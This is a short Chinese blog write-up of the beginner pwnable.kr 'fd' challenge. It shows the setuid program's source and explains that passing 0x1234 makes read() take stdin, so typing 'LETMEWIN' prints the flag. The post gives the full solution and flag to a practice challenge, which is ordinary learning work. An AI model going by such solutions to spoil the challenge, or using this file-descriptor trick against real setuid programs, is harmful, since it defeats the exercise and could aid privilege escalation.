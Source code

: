 ```yaml
---
title: pwnable.kr--fd
date: 2017-12-06 20:28:00
tags: [pwnable.kr,PWN]
categories: CTF
---
```

## 前言
最近在做[pwnable.kr](http://pwnable.kr)上的题目，本来也是新手就准备把解题的思路写下来加深印象。
这是第一题，较简单，题目很基础。
## 分析
先看一下都有什么文件
```
fd@ubuntu:~$ ls -l
total 16
-r-sr-x--- 1 fd_pwn fd   7322 Jun 11  2014 fd
-rw-r--r-- 1 root   root  418 Jun 11  2014 fd.c
-r--r----- 1 fd_pwn root   50 Jun 11  2014 flag

```
由于没权限访问`flag`文件，看来只有通过`fd`程序的执行来查看了，这里`fd.c`是源码
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}

```
通过分析源码发现，只要控制使第一个参数为`0x1234`然后`fd=0`再输入`LETMEWIN\n`就可以执行查看flag的命令了。操作一下确实是这样的
```
fd@ubuntu:~$ ./fd `python -c 'print 0x1234'`
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!

```
## 总结
这道题考察基本的Linux文件操作，适合我这样的萌新,哈哈。